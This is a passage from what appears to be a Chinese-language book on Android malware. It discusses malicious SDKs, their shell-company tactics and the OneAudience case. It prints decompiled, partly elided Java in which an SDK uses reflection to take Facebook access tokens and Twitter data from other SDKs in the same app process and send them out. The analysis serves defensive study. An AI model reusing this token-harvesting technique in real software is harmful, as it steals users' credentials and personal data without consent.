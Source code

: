 第三，现代恶意软件处于法律和道德的灰色地带。一名盗取用户银行凭证并清空其银行账户的恶意软件作者将成为执法部门关注的焦点。然而，支付应用开发者嵌入代理 SDK 或收集用户数据的恶意软件作者不太可能被起诉。因此，恶意软件开发者不必是地下犯罪组织。看似合法的软件公司，拥有办公楼、社交媒体存在以及风险投资资金，也可以开发这类应用。

此外，许多成功的现代安卓恶意软件家族都使用 SDK。广告欺诈者、代理网络和数据经纪人从每个感染设备中赚取的利润较少，因此他们必须接触大量设备。为了达到这一点，这些恶意软件开发者构建 SDK 并说服合法开发者将其用于应用中，无论是自愿的还是付费的。在几起公开记录的案例中，恶意软件 SDK 被嵌入了数亿次安装量的应用中。没有其他已知方法可以让恶意软件开发者达到这个规模。

说服合法开发者将 SDK 嵌入其应用而不提过多问题，至少需要一种合法的外观，这也解释了为什么许多恶意软件公司伪装成安卓生态系统中的合法参与者。它们拥有专业的网站、LinkedIn 页面，甚至配备有客户经理与受欢迎的应用开发者建立关系。

SDK 方法还将成本和风险从恶意软件开发者转移到了毫无察觉的开发者身上。一旦恶意软件 SDK 被曝光，面临风险的将是合法开发者的 Google Play 账号被终止。SDK 背后的诈骗者通过在如塞舌尔等国家的壳公司掩盖他们的踪迹。一个名誉受损的壳公司可以轻易被同一群人运营的新壳公司替代。

#### ***OneAudience***

数据经纪人和安卓一样古老，但在 2017 年左右开始流行起来，那时更多的经纪人开始构建 SDK，并支付合法开发者将其偷偷嵌入应用中。这些 SDK 会尽可能地收集用户的位置信息历史、应用使用情况或网页浏览行为。由于这些数据的潜在买家不乏其人，许多公司不断挑战 Google Play 政策所允许的数据收集边界。

2016 年成立的美国公司 OneAudience 是该领域的早期参与者。其声明的目标是“通过将应用用户信息转化为广告商渴望的观众洞察，帮助开发者赚取新的收入。”2019 年，发现 OneAudience 提供了一个 Android SDK，未经用户同意收集 Twitter（2023 年更名为 X）和 Facebook 的信息。曝光后，该公司迅速宣布关闭。Facebook 随后对该开发者提起诉讼，涉及公司数据访问行为。根据 Facebook 2020 年 2 月的博客文章《采取行动反对平台滥用》，双方达成了和解。OneAudience 在其网站上确认了和解，但仍然关闭了其产品和公司。

OneAudience 访问 Twitter 和 Facebook 账户的技术细节揭示了一个所有流行操作系统中普遍存在的安全问题。现代应用程序通过将应用程序代码与许多附加 SDK 结合来构建。默认情况下，所有这些代码都在同一个进程中执行。进程内部没有安全边界，因为操作系统假设同一进程内的所有代码都是同等可信的。不幸的是，这种模型已经过时且不现实。恶意 SDK 存在，能够完全访问应用程序的其他 SDK 和核心代码。

列表 2-18，摘自应用程序*com.bestcoolfungames.cockroachsmasher*（v10617, 52f2），展示了 OneAudience SDK 如何通过反射访问用户的 Facebook 和 Twitter 信息。这个行为之所以可能，是因为 Facebook 和 Twitter SDK 与 OneAudience SDK 运行在相同的应用进程中。如果用户之前在应用程序中登录过 Twitter 或 Facebook，Twitter 和 Facebook SDK 中会包含他们的认证令牌。OneAudience 收集这些认证令牌，并利用它们偷偷连接到用户的 Twitter 和 Facebook 账户，抓取个人信息。

```
public static String getFacebookAccessToken() {
  Class[] v3_0 = new Class[0];
  try {
    Class v4_0 = Class.forName("com.facebook.AccessToken");
  } catch (Exception v0_2) {
    ...
  }

  if (v4_0 == null) {
    Method v0_5 = null;
  } else {
    v0_5 = v4_0.getDeclaredMethod("getCurrentAccessToken", v3_0);
  }
  ...
}

public String getSocialProfileJSON() {
  String v0_0 = "";
  String v1_0 = com.oneaudience.sdk.c.a.getFacebookAccessToken();
    if (v1_0 != null) {
      com.oneaudience.sdk.c.a.b v0_4 = new com.oneaudience.sdk.b().send(
        new com.oneaudience.sdk.i().getFacebookProfile(
          this.context, this.oneaudienceSharedPreferences, v1_0));
      ...
    }
    Object v1_3 = com.oneaudience.sdk.c.h.talkToTwitter();
    if (v1_3 == null) {
      String v1_4 = "";
    } else {
      v1_4 = this.extractJson(v1_3);
    }
    ...
    return this.extractJson(
      new com.oneaudience.sdk.model.SocialData(v0_0, v1_4));
}
```
